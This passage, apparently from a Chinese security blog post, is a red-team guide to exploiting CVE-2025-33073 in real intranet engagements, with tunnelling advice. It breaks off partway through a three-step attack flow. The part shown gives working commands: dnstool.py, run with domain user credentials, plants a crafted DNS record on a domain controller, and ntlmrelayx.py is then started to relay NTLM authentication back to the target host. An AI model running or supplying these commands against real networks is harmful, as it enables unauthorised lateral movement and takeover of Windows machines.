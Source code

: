 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4NDU4OTQ1NA==&mid=2247484740&idx=1&sn=efcc3f00d734e8b8bf6e9bf129f586d0

#  内网横行：大杀器之实战场景下的 CVE-2025-33073 全流程利用指南 | 附利用工具集  
原创 薛定的饿猫  饿猫的小黑屋   2025-06-25 01:26  
  
**前言**  
****  
  
  
参考资料  
  
在上一篇文章中，对   
CVE-2025-33073  
 的漏洞原理进行了比较深入的分析，同时在靶场环境中进行了漏洞复现。出于漏洞原理和红队行动规范的原因， CVE-2025-33073 在实际利用的过程中比靶场会更加麻烦一些。本文将基于实战利用的场景对 CVE-2025-33073 进行全流程的攻击梳理。  
1. 靶场复现中存在的 Windows 端口占用问题在实战中没有太大影响，因为不可避免的需要走隧道进行利用，那么外网的 VPS 机器直接选择 Linux 即可。如果确实有需要用到 Windows 进行利用的情况，按照章节   
0x04  
 中不出网的部分进行转发即可。为了帮助小白更好的理解，文章最后也会对其单独进行讲解。  
  
1. 为了使流程更加清晰，文中按照步骤搭建不同的隧道，实战情况下可以使用 frp 等能转发 SMB 的工具进行转发，简化利用流程并减少文件上传的数量。  
  
如果想深入了解此漏洞，建议阅读前文。  
> 内网横行：CVE-2025-33073漏洞分析与攻击复现  
  
> 薛定的饿猫，公众号：饿猫的小黑屋[内网横行：CVE-2025-33073漏洞分析与攻击复现](http://mp.weixin.qq.com/s?__biz=Mzg4NDU4OTQ1NA==&mid=2247484712&idx=1&sn=02ff86815b2cb114cbfcea520ff2db51&chksm=cfb493c9f8c31adfec2590226974b21f93d10095abfd157d19e38dd2c460a04e7a8301931b90#rd)  
  
  
  
0x01 最简攻击流程梳理  
  
  
参考资料  
  
先回顾一下正常攻击的流程，主要分为三个步骤：  
  
1.   
向 DNS 服务器（域控）添加 DNS 记录。  
  

```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130（攻击机IP） --action modify 192.168.214.134（域控IP）
```

  
  
2.   
开启监听，用于接收目标服务器发起的认证请求并反射回给目标服务器  
。  
  

```
python ntlmrelayx.py -t 192.168.214.135（目标机IP） -smb2support
```

  
  